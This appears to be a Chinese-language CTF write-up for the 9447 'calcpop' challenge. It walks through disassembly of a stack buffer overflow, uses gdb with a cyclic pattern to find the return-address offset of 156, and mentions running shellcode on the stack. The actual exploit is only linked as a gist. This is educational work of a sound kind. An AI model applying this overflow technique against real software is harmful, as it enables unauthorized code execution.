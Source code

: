 ```yaml
---
title: 'Writeup-9447 CTF: calcpop'
layout: post
categories: blog
tags: [Hack, CTF, Writeup, Exploitation]
share: true
---
```


先看反汇编代码：
{% highlight asm %}
...
8048460:	55                   	push   %ebp
8048461:	89 e5                	mov    %esp,%ebp
8048463:	57                   	push   %edi
8048464:	56                   	push   %esi
8048465:	be 00 01 00 00       	mov    $0x100,%esi
804846a:	53                   	push   %ebx
804846b:	83 e4 f0             	and    $0xfffffff0,%esp
804846e:	81 ec 90 00 00 00    	sub    $0x90,%esp
8048474:	a1 60 a0 04 08       	mov    0x804a060,%eax
8048479:	c7 44 24 0c 00 00 00 	movl   $0x0,0xc(%esp)
8048480:	00
8048481:	8d 5c 24 10          	lea    0x10(%esp),%ebx
8048485:	c7 44 24 08 02 00 00 	movl   $0x2,0x8(%esp)
804848c:	00
804848d:	89 df                	mov    %ebx,%edi
804848f:	c7 44 24 04 00 00 00 	movl   $0x0,0x4(%esp)
8048496:	00
8048497:	89 04 24             	mov    %eax,(%esp)
804849a:	e8 a1 ff ff ff       	call   8048440 <setvbuf@plt>
804849f:	c7 04 24 10 88 04 08 	movl   $0x8048810,(%esp)
80484a6:	e8 55 ff ff ff       	call   8048400 <puts@plt>
80484ab:	eb 29                	jmp    80484d6 <main+0x76>
80484ad:	8d 76 00             	lea    0x0(%esi),%esi
80484b0:	a1 40 a0 04 08       	mov    0x804a040,%eax
80484b5:	89 04 24             	mov    %eax,(%esp)
80484b8:	e8 33 ff ff ff       	call   80483f0 <_IO_getc@plt>
80484bd:	85 c0                	test   %eax,%eax
80484bf:	0f 88 e3 00 00 00    	js     80485a8 <main+0x148>
80484c5:	88 07                	mov    %al,(%edi)
80484c7:	83 ee 01             	sub    $0x1,%esi
80484ca:	83 c7 01             	add    $0x1,%edi
80484cd:	83 f8 0a             	cmp    $0xa,%eax
80484d0:	0f 84 ca 00 00 00    	je     80485a0 <main+0x140>
80484d6:	83 fe 01             	cmp    $0x1,%esi
80484d9:	77 d5                	ja     80484b0 <main+0x50>
80484db:	85 f6                	test   %esi,%esi
80484dd:	0f 85 bd 00 00 00    	jne    80485a0 <main+0x140>
...
{% endhighlight %}

这段代码是 main() 函数起始的位置，可以看到这里的工作是将终端输入的数据循环读入栈中。其中 esi 寄存器是循环计数器，初始值是 0x100, 而在栈中划分的空间只有 0x90 字节, 这里存在栈溢出。

用 `pattern.py 256` 生成 pattern, 开 gdb 调试 calcpop.
{% highlight console%}
$ gdb calcpop
Reading symbols from calcpop...done.
(gdb) r
Starting program: /home/cubelin/is/ctf/9447/pwn/calcpop/calcpop
Welcome to calc.exe
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4A
Missing a space; your input was 0xffffd390
Missing a space; your input was 0xffffd390
exit
Exiting...

Program received signal SIGSEGV, Segmentation fault.
0x41326641 in ?? ()
(gdb) quit

$ pattern.py 0x41326641
Pattern 0x41326641 first occurrence at position 156 in pattern.
{% endhighlight%}

main() 函数返回地址在 offset 为 156 的位置。然后借由程序返回的栈地址，可以直接执行栈中的 shellcode.

exp 如下:

{% gist cubarco/ee054809d1643602b844 %}
